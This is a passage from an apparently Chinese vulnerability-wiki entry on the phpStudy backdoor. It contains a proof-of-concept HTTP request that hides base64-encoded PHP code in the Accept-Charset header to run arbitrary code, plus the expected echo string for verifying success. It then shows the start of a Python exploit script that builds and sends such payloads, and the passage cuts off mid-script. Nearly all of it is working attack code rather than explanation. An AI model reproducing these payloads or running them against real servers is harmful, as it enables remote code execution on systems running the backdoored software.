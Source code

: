     ?>

### POC

熟悉原理后可根据执行流程构造执行任意代码的Payload：

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding:gzip,deflate
    Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
    Content-Length: 0
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

Payload：`printf(md5(333));`

回显特征：`310dcbbf4cce62f762a2aaa148d556bd`

![7.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId37.jpg)

图5：Payload回显验证

### exp

    #!/usr/bin/env python3
    #-*- encoding:utf-8 -*-
    # 卿 博客:https://www.cnblogs.com/-qing-/

    import base64
    import requests
    import threading
    import queue


    print("======Phpstudy Backdoor Exploit============\n")
    print("===========By  Qing=================\n")
    print("=====Blog：https://www.cnblogs.com/-qing-/==\n")
    payload = "echo \"qing\";"
    payload = base64.b64encode(payload.encode('utf-8'))
    payload = str(payload, 'utf-8')
    headers = {
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'accept-charset': payload,
        'Accept-Encoding': 'gzip,deflate',
        'Connection': 'close',
    }
